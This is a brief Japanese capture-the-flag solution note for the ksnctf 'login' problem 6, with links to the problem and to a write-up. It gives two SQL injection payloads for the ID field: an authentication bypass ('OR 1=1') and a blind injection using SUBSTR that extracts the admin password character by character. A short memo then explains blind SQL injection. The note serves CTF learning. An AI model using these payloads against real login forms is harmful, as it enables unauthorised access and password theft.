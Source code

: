 ### 問題6 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)

### 解法

1. 以下をID欄に入力
     ' OR 1=1 --    
2. 以下をID欄に入力
    admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--    
### メモ
***ブラインドSQLインジェクション***
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
